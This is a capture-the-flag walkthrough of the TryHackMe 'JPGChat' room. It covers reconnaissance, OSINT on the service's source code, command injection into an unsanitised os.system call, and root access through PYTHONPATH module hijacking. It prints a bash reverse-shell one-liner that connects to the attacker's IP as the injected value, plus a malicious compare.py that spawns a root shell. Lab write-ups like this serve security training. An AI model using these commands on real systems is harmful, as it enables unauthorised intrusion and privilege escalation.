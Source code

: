 # [JPGChat][1]
Exploiting poorly made custom chatting service written in a certain language...

Umm, certain language, ssly?! Logo says it all :stuck_out_tongue_winking_eye:

### RECON

Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`

![Nmap Scan](images/nmap_scan.jpg)

Looks like we have two ports open: `22, 3000`

Let's check `port 3000` in browser.

![Browser](images/browser.jpg)

Hmm, source code is available on GitHub! Time for *OSINT*.

### OSINT

> Search on GitHub, for *jpgchat*.

![Search GitHub](images/github_search.jpg)

Second one looks promising as its description says `on THM`.

GitHub Link - https://github.com/Mozzie-jpg/JPChat/

```
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

### PREP

Looking at the code. There are `os.system` commands.

```
os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

> The `os.system` is used to *echo* the input from **[REPORT]** to a text file. It is using `%s` and there is NO CHECKS for input, we can exploit this by using `;` to close the echo command and use the famous one liner BASH command.

Bash Command - `bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1;`

Also, before starting **netcat** connection. We will first listen on a port by using `nc -lvnp 4444`

![Listener](images/netcat_listen.jpg)

Now we will connect to the port using **netcat** by `nc <IP> 3000` in another terminal.

> We will type **[REPORT]** to input username. (I went to message first. Just ignore that part and directly type [REPORT]).


### EXPOLIT

The input looks like this `;<bash_script>;`. So `hi;bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1;`

> I typed `hi` to check if the line is executed or not. You can directly write `;` and the script.

Type anything when ask for *your report*. You will see your message you typed before.

![Bash Code](images/bash_one_liner.jpg)

Go back to your netcat listener and you will see successful connection.

![Connection Successful](images/got_connection.jpg)

Now just do `cd ~` and you will be in the home directory. You know what to do next :wink:

![User Flag](images/user_flag.jpg)


### PRIVILEGE ESCALATION

First let's see what are commands we can run using `sudo -l`.

![Commands](images/sudo_l.jpg)

So this tells us two things.
1. We have access to mail_badpass and PYTHONPATH variable.
2. We can run this python file. `/opt/development/test_module.py`

Let's execute this Python file.

![Run Python File](images/run_script.jpg)
> It gives True. Let's see the content of the file.

Checking the content of the file.

![Check Python Code](images/check_file.jpg)

> Seems like it is importing python module called **compare**. Also it is importing everything from ***compare.py*** file as there is a `*`.

How about we create our own `compare.py` file and add that directory to `PYTHONPATH` variable. Then run this file again as a root user. As show it says ***(root)***.

So for the content of the python file, we can use *subprocess* library and call `/bin/sh` to get the shell as ROOT.

***Python Code:***

```
import subprocess

subprocess.call(['/bin/sh', '-i'])
```

As we are is **wes's home directory**  and we have permission to create/write to a file. We can do

`echo 'import subprocess;subprocess.call(['/bin/sh', '-i'])' > compare.py`

![Create Python File](images/create_compare.jpg)

Now that we have a file. We can add this directory to PYTHONPATH.

`export PYTHONPATH=/home/wes/`

![Change PYTHONPATH variable](images/change_python_path.jpg)

Let's run the PYTHON file once again but as a  `root`

![Run Script](images/run_edited_script.jpg)

BOOM!! We have a shell with ***ROOT privilege***. You can confirm the same by `whoami`.

You know where to find the ROOT flag.

![Root Flag](images/root_flag.jpg)


[1]: https://tryhackme.com/room/jpgchat
[2]: https://www.hackhunt.in/search/label/Nmap
